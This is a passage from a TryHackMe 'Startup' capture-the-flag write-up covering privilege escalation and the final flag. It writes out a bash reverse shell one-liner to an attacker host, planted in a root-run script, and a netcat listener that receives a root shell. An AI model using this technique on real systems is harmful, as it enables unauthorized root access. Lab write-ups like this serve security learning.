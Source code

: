 root is running the script regularly, I can determine its root as the UID is 0. 

```highlight
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i >& /dev/tcp/(VPN IP)/8888 0>&1
lennie@startup:~/scripts$ 
```

I edit the print.sh script with a bash reverse shell one liner and wait for the script to execute.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $nc -nvlp 8888
listening on [any] 8888 ...
connect to [(VPN IP)] from (UNKNOWN) [10.10.27.29] 34830
bash: cannot set terminal process group (2212): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# cd /root
cd /root
root@startup:~# ls -lah
ls -lah
total 28K
drwx------  4 root root 4.0K Nov 12 04:54 .
drwxr-xr-x 25 root root 4.0K Nov 21 10:58 ..
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4.0K Nov 12 04:54 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12 04:53 root.txt
drwx------  2 root root 4.0K Nov 12 04:50 .ssh
root@startup:~# 
```

Wait a few seconds and root shell! I really enjoyed this room, particularly the Wireshark element reviewing the capture to locate credentials. 

### Secret ingredient

I still need to find the secret ingredient from the recipe! This can be found at /recipe.txt

```highlight
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was [redacted].
```

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

